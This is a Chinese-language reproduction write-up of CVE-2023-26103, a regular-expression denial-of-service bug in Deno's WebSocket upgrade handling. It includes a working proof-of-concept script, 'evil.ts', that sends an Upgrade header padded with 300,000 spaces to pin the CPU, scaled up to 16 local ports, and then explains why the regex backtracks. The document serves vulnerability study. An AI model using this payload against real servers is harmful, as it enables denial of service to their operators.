 ```yaml
---
title: CVE-2023-26103
---
```


# CVE-2023-26103

<vue-metadata author="swwind" time="2023-6-12"></vue-metadata>

Deno 是开源的一个简单、现代且安全的 JavaScript 和 TypeScript 运行环境。它使用 V8 并使用 Rust 构建。

Deno 1.31.0 之前版本存在安全漏洞，该漏洞源于容易受到正则表达式拒绝服务(ReDoS)攻击。

## 漏洞详情信息表

|  漏洞名称  |     Deno 安全漏洞      |
| :--------: | :--------------------: |
| CNNVD 编号 |   CNNVD-202302-2012    |
|  CVE 编号  | [CVE-2023-26103][nist] |
|    厂商    |       个人开发者       |
|  危害等级  |          中危          |
|  漏洞类型  |      拒绝服务攻击      |

## 系统和软件环境配置详情信息表

- deno v1.30.3

## 漏洞还原详细步骤

1. 使用 `mkdir CVE-2023-26103` 创建新文件夹。
2. 使用 `wget https://github.com/denoland/deno/releases/download/v1.30.3/deno-x86_64-unknown-linux-gnu.zip` 下载含有缺陷的 deno 版本。
3. 使用 `unzip deno-x86_64-unknown-linux-gnu.zip` 解压可执行文件 `deno` 到当前目录。
4. 运行 `./deno --version` 查看当前版本。

![](/assets/exploits/figure3/fig1.png)

## 漏洞测试或验证详细步骤

### 编写代码

按照官方教程提供的样例，编写一个简单的 WebSocket 服务器 `server.ts`。

```js
async function handle(conn: Deno.Conn) {
  const httpConn = Deno.serveHttp(conn);
  for await (const e of httpConn) {
    const { socket, response } = Deno.upgradeWebSocket(e.request);
    socket.onopen = () => socket.send("Hello World!");
    socket.onmessage = (e) => {
      console.log("WebSocket Message:", e.data);
      socket.close();
    };
    socket.onclose = () => console.log("WebSocket has been closed.");
    socket.onerror = (e) => console.error("WebSocket error:", e);
    e.respondWith(response);
  }
}

const server = Deno.listen({ port: 8080 });

for await (const conn of server) {
  handle(conn);
}
```

上面这段代码会监听本地 `8080` 端口，并且提供 WebSocket 协议。

使用 `./deno run --allow-net server.ts` 可以成功启动我们的 WebSocket 服务器。

### 验证漏洞

`Deno.upgradeWebSocket` 中含有如下代码：

```js
req.headers.get("upgrade").split(/\s*,\s*/);
```

其中包含了一个带有缺陷的正则表达式，其匹配的复杂度最坏可以达到 $O(n^2)$。

要想利用这个缺陷，我们可以直接构造一个带有数百万个空格的 `Upgrade` HTTP 头的请求即可。

下面是用于攻击的代码，我们将其保存为 `evil.ts`。

```js
const evil = "X" + " ".repeat(300000) + "Y";

await fetch("http://localhost:8080/", {
  headers: {
    Upgrade: evil,
  },
});
```

上面这段代码发送了一个 HTTP 请求，其中 Upgrade 头的值是一个 `X` 和三十万个空格再加上一个 `Y`，足以使得目标正则表达式难以计算出结果。

我们使用 `./deno run --allow-net evil.ts` 发送请求，可以看到系统占用明显上升。

![](/assets/exploits/figure3/fig2.png)

上图中可以明显看到有一个 CPU 达到 100% 占用。

### 更大规模测试

得益于 JavaScript 语言的单线程性，无论我们同时发起多少个请求，都只会有一个 CPU 资源被消耗。

因此我们尝试修改代码，使得一个服务器可以同时支持 16 个请求同时访问。

修改 `server.ts` 如下

```js
for (let i = 0; i < 16; ++i) {
  const worker = new Worker(new URL("./worker.ts", import.meta.url).href, {
    type: "module",
  });
  worker.postMessage({ port: 8080 + i });
}
```

接下来创建文件 `worker.ts` 如下

```js
async function handle(conn: Deno.Conn) {
  const httpConn = Deno.serveHttp(conn);
  for await (const e of httpConn) {
    const { socket, response } = Deno.upgradeWebSocket(e.request);
    socket.onopen = () => socket.send("Hello World!");
    socket.onmessage = (e) => {
      console.log("WebSocket Message:", e.data);
      socket.close();
    };
    socket.onclose = () => console.log("WebSocket has been closed.");
    socket.onerror = (e) => console.error("WebSocket error:", e);
    e.respondWith(response);
  }
}

async function createServer(port: number) {
  const server = Deno.listen({ port });

  for await (const conn of server) {
    handle(conn);
  }
}

self.onmessage = (e) => {
  const { port } = e.data;
  createServer(port);
  console.log(`listen on http://localhost:${port}/`);
};
```

接着使用 `./deno run --allow-net --allow-read server.ts` 启动服务器，可以看到程序按顺序监听了 16 个端口。

![](/assets/exploits/figure3/fig3.png)

接着修改 `evil.ts` 如下

```js
const evil = "X" + " ".repeat(300000) + "Y";

for (let i = 0; i < 16; ++i) {
  const port = 8080 + i;
  console.log(`sending request to :${port}`);
  fetch(`http://localhost:${port}/`, {
    headers: {
      Upgrade: evil,
    },
  });
}
```

使用 `./deno run --allow-net evil.ts`，可以看到主机占用立刻达到了 100%。

![](/assets/exploits/figure3/fig4.png)

### 漏洞分析

造成漏洞的原因在于上文中提到的一句话

```js
req.headers.get("upgrade").split(/\s*,\s*/);
```

这句话中我们读取了 HTTP 头部中的 `Upgrade` 字段，并将其通过 `\s*,\s*` 正则表达式进行分割。

一般来说这句话对于正常的情况下不会出现任何问题，但是由于 `\s*` 是贪心地匹配所有可能的结果，因此如果我们构造了如上文中 `"X" + " ".repeat(300000) + "Y"` 的字符串，那么 `\s*,\s*` 会先贪心地从第一个空格开始匹配中间所有的空格，发现最后不是逗号并发生失配，接着回溯从第二个空格开始匹配接下来的所有空格，再次发现最后不是逗号并发生失配。如此这般，匹配的复杂度将会达到最差的 $O(n^2)$。

因此，我们通过构造的方式可以成功使得该正则表达式消耗大量的 CPU 运算，从而实现拒绝服务攻击。

[nist]: https://nvd.nist.gov/vuln/detail/CVE-2023-26103
